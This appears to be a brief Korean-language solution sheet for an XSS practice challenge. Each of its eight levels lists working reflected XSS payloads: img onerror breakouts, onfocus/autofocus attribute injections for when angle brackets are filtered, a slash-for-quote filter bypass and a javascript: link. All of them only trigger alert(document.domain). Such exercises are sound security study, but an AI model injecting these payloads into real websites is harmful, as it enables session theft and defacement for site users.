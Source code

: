 # xsschall
quic_xss

#1
//aaaaa"</b><img/src=x onerror=alert(document.domain)><b>

#2
aaa"><img/src onerror=alert(document.domain) alt="1
  
#3 p2 =japan 부분에 입력
aaaaa"</b><img/src=x onerror=alert(document.domain)<b>


#4 p3 hackme 부분
aaaaa"</b><img/src=x onerror=alert(document.domain)<b>

#5 걍(maxlength 보는데 걍.. 프록시잡아서..)
aaaaa"</b><img/src=x onerror=alert(document.domain)<b>


###6 <> filter 상태에서 / onfocus 핸들러로 트리거

1" onfocus=alert(document.domain) "

" onerror=alert() alt="
" autofocus onfocus=alert(1)"
1" onfocus=alert(document.domain) "
1" onfocus=alert(document.domain) autofocus "
/// ESC키 연타 + 마우스 이동해서 포커스 해제~!~!~!~!~!
<input type="text" onmouseover=alert()"">
<input type="text" name="p1" size="50" value="1" onfocus=alert() ""> 

#7 <> filter 에다가 "도 필더다 ~ 근데 걍됨
1" onfocus=alert(document.domain) "
<input type="text" name="p1" size="50" value=1&quot; onfocus=alert(document.domain) &quot;>

[풀이]
" 필터링을 우회 할 수 있는 방법을 사용해야 할 것 같습니다.
[문제 정답]
정답 : / onfocus=alert(document.domain)
필터링되는 " 대신 /를 이용하여 XSS 공격 구문을 삽입합니다.


#8 href=구문 상황에서 실행  // link 형식
javascript:alert(document.domain)
<a href="javascript:alert(document.domain)">





"<>를 인풋에 집어넣어서 필터링되는지보고a
